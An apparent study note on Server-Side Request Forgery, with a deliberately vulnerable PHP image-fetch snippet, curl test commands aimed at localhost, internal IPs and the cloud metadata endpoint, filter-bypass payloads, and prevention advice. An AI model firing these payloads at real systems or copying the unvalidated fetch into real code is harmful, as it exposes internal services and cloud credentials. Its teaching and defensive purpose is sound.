







> [!abstract]
>
> **Server-Side Request Forgery (SSRF)** is a web vulnerability where an attacker can force a server-side application to make HTTP requests to unintended locations.
>
> Instead of the attacker directly communicating with a target, the vulnerable server acts as a proxy and performs the request on behalf of the attacker.

![[Pasted image 20260811162855.png]]

> [!danger]- Vulnerable Code
> ```php
> <? php
> 
> /**
> * Check if the 'url' GET variable is set.
> */
> 
> if (isset($_GET['img'])){
> $img = $_GET['img'];
> 
> /**
> * Send a request vulnerable to SSRF since
> * no validation is being done on $url
> * before sending the request
> */
> $image = fopen($img, 'rb');
> 
> /**
> * Dump the contents of the image
> */
>fpassthru($image);
>
>?>
><! DOCTYPE html>
><html>
><head>
><meta charset="utf-8">
><meta name="viewport" content="width=device-width, initial-scale=1">
><title>Cat</title>
></head>
><body>
>
></body>
></html>
>```
# SSRF Concept

In a normal request:

```text
Attacker
   |
   v
Web Server
   |
   v
Internet Resource
````

The server only communicates with resources it was designed to access.
In SSRF:



The attacker controls the destination of the server-side request.

# Why SSRF Happens

SSRF usually occurs when an application accepts a user-controlled URL without proper validation.

Example vulnerable code:

```php
<?php

if (isset($_GET['img'])) {
    $img = $_GET['img'];
    $image = fopen($img, 'rb');
    fpassthru($image);
}

?>
```

The application directly uses user input:

```php
fopen($img, 'rb');
```

No validation exists.

The attacker controls:

```text
img=
```

# Normal Application Flow

Example:

A shopping application checks product availability.

Client sends:

```http
POST /product/stock

stockApi=http://stock.example.com/product/check?id=6
```

Server:



---

# SSRF Attack Flow

The attacker changes:

```http
stockApi=http://stock.example.com/product/check?id=6
```

to:

```http
stockApi=http://localhost/admin
```

Now:



The server accesses a resource that the attacker cannot access directly.

---

# SSRF Targets

## Localhost

Common targets:

```
127.0.0.1
localhost
::1
```

Example:

```bash
curl "https://target.com/image?url=http://127.0.0.1/admin"
```

---

## Internal Network

Internal services may not be exposed publicly.

Examples:

```
http://10.0.0.5
http://192.168.1.10
http://172.16.0.20
```

Example:

```bash
curl "https://target.com/image?url=http://192.168.1.10/admin"
```

---

## Cloud Metadata Services

Cloud environments often expose metadata endpoints.

Example:

AWS:

```
http://169.254.169.254/latest/meta-data/
```

Request:

```bash
curl "https://target.com/image?url=http://169.254.169.254/latest/meta-data/"
```

Possible exposed information:

```
IAM credentials
Instance information
Cloud configuration
```

> [!danger]
> 
> Access to cloud metadata endpoints can result in complete cloud account compromise depending on the available permissions.

---

# SSRF Types

## Full blown SSRF

> [!abstract]
>
> **Basic SSRF** occurs when a vulnerable application makes a server-side request to a user-controlled destination and returns the response back to the attacker.
>
> The attacker can directly view the response from the target resource, which may allow access to internal services, sensitive information, or restricted endpoints.



The attacker can see the result.
## Blind SSRF

> [!abstract]
>
> **Blind SSRF** occurs when the server makes a request, but the response from the requested resource is not returned to the attacker.
>
> The attacker cannot directly see the response and can only determine that the request was executed through indirect methods.



Detection methods:

- DNS callbacks
- HTTP callbacks
- Timing differences

> [!warning] Impact
>
>A successful SSRF attack can lead to:
>
>- Internal service access
>- Authentication bypass
>- Information disclosure
>- Cloud credential exposure
>- Port scanning
>- Access to administrative panels
>- Possible remote code execution

---

# SSRF Through Trust Relationships

Many SSRF vulnerabilities exist because internal systems trust requests from local machines.

Example:



The internal service thinks:

```
Request Source = Local Server
```

Therefore:

```
Allow Access
```

# Testing SSRF With curl

## Basic URL Injection

Example parameter:

```
url=
```

Test:

```bash
curl "https://target.com/page?url=http://127.0.0.1"
```

## Test localhost

```bash
curl "https://target.com/page?url=http://localhost"
```

## Test internal IP

```bash
curl "https://target.com/page?url=http://10.0.0.1"
```

## Test metadata endpoint

```bash
curl "https://target.com/page?url=http://169.254.169.254"
```

# Common SSRF Bypass Techniques

## IP Representation

Instead of:

```
127.0.0.1
```

Try:

```
127.1
```

or:

```
2130706433
```

or:

```
0x7f000001
```

---

## URL Parsing Tricks

Example:

```
http://localhost@evil.com
```

Different parsers may interpret this differently.

---

## DNS Rebinding

The hostname initially resolves to an allowed IP:

```
example.com
      |
      v
Public IP
```

Later changes:

```
example.com
      |
      v
127.0.0.1
```

> [!todo] Checklist
> - Identify URL parameters
> - Test localhost
> - Test 127.0.0.1
> - Test internal IP ranges
> - Test cloud metadata endpoints
> - Test different URL formats
> - Test redirects
> - Test DNS rebinding
> - Check blind SSRF behavior
> - Monitor external callbacks

> [!success] Prevention
>- Validate and sanitize user-controlled URLs.
>- Use allowlists instead of blocklists.
>- Disable unnecessary URL schemes.
>- Block requests to internal IP ranges.
>- Prevent access to cloud metadata services.
>- Normalize URLs before validation.
>- Restrict outbound network connections.
>- Apply network segmentation.
# SSRF Supported URL Schemes

> [!abstract]
>
> In SSRF vulnerabilities, the attacker may control the URL scheme used by the server-side request.
>
> Different schemes can trigger different behaviors, such as reading local files, communicating with internal services, or accessing external resources.

| Scheme      | Description                                          | Common SSRF Impact             |
| ----------- | ---------------------------------------------------- | ------------------------------ |
| `file://`   | Used to access local files on the server filesystem  | Local File Disclosure          |
| `dict://`   | DICT protocol used for accessing dictionary services | Internal service interaction   |
| `sftp://`   | Secure File Transfer Protocol over SSH               | File transfer access           |
| `ldap://`   | Lightweight Directory Access Protocol                | Directory service interaction  |
| `tftp://`   | Trivial File Transfer Protocol over UDP              | File transfer interaction      |
| `gopher://` | Protocol for retrieving and distributing documents   | Advanced SSRF exploitation     |
| `http://`   | Standard web protocol for fetching resources         | Web and internal HTTP requests |
| `https://`  | Secure version of HTTP                               | Encrypted web requests         |

## URL Scheme Flow



# Related Vulnerabilities

- Broken Access Control
- Information Disclosure
- Cloud Metadata Exposure
- Open Redirect
- XXE
- Request Smuggling

# References

- OWASP Server-Side Request Forgery Prevention Cheat Sheet
- PortSwigger Web Security Academy
- CWE-918: Server-Side Request Forgery (SSRF)
  
  